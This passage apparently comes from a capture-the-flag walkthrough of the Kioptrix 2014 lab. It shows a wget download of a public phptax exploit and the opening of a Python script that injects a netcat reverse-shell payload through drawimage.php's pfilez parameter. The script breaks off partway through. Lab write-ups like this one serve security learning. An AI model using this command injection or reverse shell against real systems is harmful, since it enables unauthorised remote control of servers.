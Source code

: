 ![](/assets/images/kioptrix2014/screenshot-6.png)


### Remote Code Execution 

Googling I found that phptax is vulnerable to remote code execution, we downloaded the exploit to analyze the proof of concept.

```console
root@kali:~$ wget https://www.exploit-db.com/download/21665
```

To exploit it, I developed a python script that replicates the exploitation process and gets a shell automatically.

```python
#!/usr/bin/env python3

import urllib3
import threading
import os
import time
import sys

if len(sys.argv) != 4:
    print("Usage: {} [RHOST] [LHOST] [LPORT]".format(sys.argv[0]))
    sys.exit(0)

rhost = sys.argv[1]
lhost = sys.argv[2]
lport = sys.argv[3]
payload = "rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i |nc {} {} > /tmp/f".format(lhost, lport)
url = "http://{}:8080/phptax/drawimage.php?pfilez=xxx;{};&pdf=make".format(rhost, payload)
```